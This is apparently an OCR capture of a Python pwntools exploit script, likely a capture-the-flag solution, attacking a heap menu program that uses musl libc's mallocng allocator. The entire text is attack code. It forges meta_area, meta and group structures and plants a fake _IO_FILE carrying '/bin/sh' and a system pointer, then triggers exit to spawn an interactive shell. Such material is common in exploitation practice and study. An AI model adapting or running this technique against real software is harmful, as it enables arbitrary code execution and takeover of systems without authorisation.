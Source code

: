 ```py
for i in range(8):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
clear()

payload = p64(secret)       							# meta_area.secret          0x0
payload += p64(0)           							# meta_area.next
payload += p64(0x65)        							# meta_area.nslots (struct meta[])          0x10
payload += p64(libc_base - 0x6000 + 0x1000 + 0xA0)  	# meta.prev (struct meta*)
payload += p64(stdout_ptr)  							# meta.next (struct meta*)                  0x20
payload += p64(libc_base - 0x6000 + 0x1000 + 0x50)  	# meta.mem (struct group*)
payload += p32(0)           							# meta.avail_mask
payload += p32(0b111101)           						# meta.free_mask
payload += p64(5 + (1 << 5) + (3 << 6) + (1 << 12))     			# meta.last_idx, freeable, size_class, maplen(=0)       0x30
payload += p64(0) * 2
payload += p64(libc_base - 0x6000 + 0x1000 + 0x18)  	# group.meta (struct meta*)     0x48
payload += p64(0x800000000006)           				# group.active_idx
fake_file = flat({
        0: b"/bin/sh\x00",
        0x28: 0xdeadbeef,
        0x38: 0,
        0x48: sys
    }, filler=b'\x00')
payload += b'\x00' * 0x3D + p8(1) + p16(4) + fake_file                # fake _IO_FILE struct, 0x58

for i in range(4):
    add(i, 0x78, p64(0xdeadbeef00 + i) + b'\n')
add(100, 0x38, p64(0xdeadbeef) + b'\n')
add(100, 0x1300, cyclic(0x1000 - 0x40) + payload + b'\n')
delete(3)
add(99, 0x38, p64(98) + p64(libc_base - 0x6000 + 0x1000 + 0xA0) + p64(0x38) + p64(2) + p64(0xdeadbeef) + p64(0) * 2)
delete(98)
# gdb.attach(io, 'b *$rebase(0x28A9)')
# time.sleep(1)
# add(98, 0x38, p64(101) + p64(libc_base - 0x6000 + 0x1000 + 0x60) + p64(0x38) + p64(2) + p64(0xdeadbeef) + p64(libc_base - 0x1f00) + p64(0))
io.sendlineafter(b': ', b'5')	# call exit

io.interactive()
```